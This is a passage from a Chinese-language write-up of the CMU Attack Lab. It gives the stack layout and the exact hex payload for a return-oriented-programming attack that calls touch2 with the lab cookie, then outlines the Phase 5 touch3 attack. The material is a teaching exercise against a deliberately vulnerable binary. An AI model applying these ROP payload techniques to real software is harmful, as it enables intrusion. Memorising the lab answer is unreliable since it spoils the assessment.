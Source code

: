 栈中要填入的数据从低地址到高地址依次为：
```
低[0x5561dc78,0x5561dca0): 40个字节的填充字符
  [0x5561dca0,0x5561dca8): gadget1的首地址0x4013cc
  [0x5561dca8,0x5561dcb0): cookie的值0x59b997fa
  [0x5561dcb0,0x5561dcb8): gadget2的首地址0x4019a2
高[0x5561dcb8,0x5561dcc0): touch2的首地址0x4017ec
```

注意下小端序，依次构造即可。

最后要注入的字符串为：
```
00 00 00 00 00 00 00 00 /* 四十个填充字节 */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

cc 19 40 00 00 00 00 00 /* gadget1的首地址，小端序 */

fa 97 b9 59 00 00 00 00 /* cookie的值，小端序 */

a2 19 40 00 00 00 00 00 /* gadget2的首地址，小端序 */

ec 17 40 00 00 00 00 00 /* touch2的首地址，小端序 */
```

## 2.2: Level 3

>Before you take on the Phase 5, pause to consider what you have accomplished so far. In Phases 2 and 3, you caused a program to execute machine code of your own design. If CTARGET had been a network server, you could have injected your own code into a distant machine. In Phase 4, you circumvented two of the main devices modern systems use to thwart buffer overflow attacks. Although you did not inject your own code, you were able inject a type of program that operates by stitching together sequences of existing code. You have also gotten 95/100 points for the lab. That’s a good score. If you have other pressing obligations consider stopping right now.
>
>Phase 5 requires you to do an ROP attack on RTARGET to invoke function touch3 with a pointer to a string representation of your cookie. That may not seem significantly more difficult than using an ROP attack to invoke touch2, except that we have made it so. Moreover, Phase 5 counts for only 5 points, which is not a true measure of the effort it will require. Think of it as more an extra credit problem for those who want to go beyond the normal expectations for the course.

这次我们需要**让cookie以字符串的形式传递给touch3函数**。

该题的难度非常大，CMU的教授将这题作为附加题，只有5分，为了更好地理解ROP攻击，我们还是尝试一下吧。

总体上思路和part1.level3类似，我们需要将cookie字符串放置到一个安全的位置，然后通过gadget将其放到%rdi寄存器中，然后调用touch3函数。

理想转态下我们可以通过执行以下汇编指令来实现：
```
movq xxx, %rdi  #注入字符串的首地址
pushq $0x4018fa          #touch3的首地址
retq
```
